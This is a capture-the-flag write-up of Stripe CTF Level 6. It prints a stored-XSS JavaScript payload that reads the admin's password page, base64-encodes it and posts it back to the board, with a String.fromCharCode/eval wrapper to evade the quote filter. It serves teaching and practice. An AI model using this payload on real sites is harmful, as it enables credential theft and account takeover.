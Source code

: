 Stripe CTF: Level #6
####################
:date: 2012-10-28 12:42
:author: useless
:category: Write-up
:slug: stripe-ctf-level-6
:status: published

.. image:: /images/stripe-ctf-level-6/level06-logo.jpg
    :alt: level06-logo.jpg
    :align: center

You can find the code for this level
`here </docs/stripe-ctf-level-6/stripe-ctf-level06.tar.gz>`__.

(sha256:
:code:`0fed78164db1eced67ff8eeba0998c81901880b293667f63f74e2838e63d2bf3`)

This level is a message board: you can share updates with your
friends. The only thing is, you can't put messages with quotes and
double quotes, in order to prevent SQL injection. You also can't change
your password, but don't worry, it's visible on your profile page. Can
we use this to retrieve the admin's password?

This level is a lot like level #4. When you post a message, the
server only checks for quotes and double quotes, not for script tags.
So, we can post a message consisting of javascript code which will
retrieve the password and post it on the board. But we can't use quotes
or double quotes: we'll have to obfuscate our code. And since the
admin's password contains quotes and double quotes, we'll have to
obfuscate it as well before we post it to the board. I chose to use
base64, and I found a javascript implementation
`here <http://www.webtoolkit.info/javascript-base64.html>`__.

.. code-block:: js

    function pwn_password()
    {
        var xml_password = null;
        xml_password = new XMLHttpRequest();

        xml_password.open("GET", "/user_info", false);
        xml_password.send(null);
        var password_page = xml_password.responseText;

        var csrf_token = document.new_post.elements['_csrf'].value;

        var params = "title=password&body=" +
        escape(Base64.encode(escape(password_page))) + "&_csrf=" +
        escape(csrf_token);

        var xml_post = null;
        xml_post = new XMLHttpRequest();

        xml_post.open("POST", "/posts", false);
        xml_post.setRequestHeader("Content-Type",
        "application/x-www-form-urlencoded");
        xml_post.setRequestHeader("Content-Length", params.length);
        xml_post.setRequestHeader("Connection", "keep-alive");
        xml_post.send(params);
    }

    window.onload = function() {
        pwn_password();
    }

We'll obfuscate it using String.fromCharCode (the following result
contains also the base64 function):

.. code-block:: html

    </script><script>eval(String.fromCharCode(47, 42, 42, 10, 42, 10, [...] 41, 59, 10, 125, 10));</script><script>
    <!-- The result is too big to be displayed entirely -->

Let's post this and wait for the admin to log in.

.. image:: /images/stripe-ctf-level-6/level06-form.png
    :alt: level06-form.png
    :align: center

Now, we check the source code, and we see some base64-encoded stuff.

.. image:: /images/stripe-ctf-level-6/level06-source.png
    :alt: level06-source.png
    :align: center

We just have to decode it.

.. image:: /images/stripe-ctf-level-6/level06-base64-decoded.png
    :alt: level06-base64-decoded.png
    :align: center

We URL decode it, to clean a little bit:

.. image:: /images/stripe-ctf-level-6/level06-w00t.png
    :alt: level06-w00t.png
    :align: center

w00t!

